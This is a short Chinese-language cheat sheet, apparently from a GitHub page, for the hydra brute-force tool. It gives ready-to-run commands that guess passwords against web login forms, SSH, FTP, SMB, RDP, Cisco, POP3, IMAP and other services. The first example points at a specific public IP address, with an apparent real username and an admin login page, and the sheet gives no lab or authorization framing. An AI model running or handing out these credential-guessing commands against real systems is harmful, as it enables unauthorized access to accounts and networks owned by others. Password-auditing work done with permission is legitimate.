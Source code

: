 ## hydra九头蛇：暴力破解工具
hydra是一个支持众多协议的爆破工具。<br>

**参数详解**<br>



### 1、破解http post:
```shell
hydra -t 10 -l vaccigen -P /opt/fuzzDicts-master/passwordDict/top6000.txt -o out.txt -f -vV 52.196.234.51 http-post-form "/admin/index.php:account=^USER^&password=^PASS^:error" 
```
### 2、破解http get:
```shell
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```
### 3、破解https:
```shell
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
```
### 4、破解ssh:
```shell
hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f
```
### 5、破解ftp:
```shell
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```
### 6、破解teamspeak： 
```shell
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
```
### 7、破解cisco： 
```shell
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
```
### 8、破解smb： 
```shell
hydra -l administrator -P pass.txt 10.36.16.18 smb 
```
### 9、破解pop3： 
```shell
hydra -l muts -P pass.txt my.pop3.mail pop3 
```
### 10、破解rdp： 
```shell
hydra ip rdp -l administrator -P pass.txt -V 
```
### 11、破解http-proxy： 
```shell
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
```
### 12、破解imap: 
```shell
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
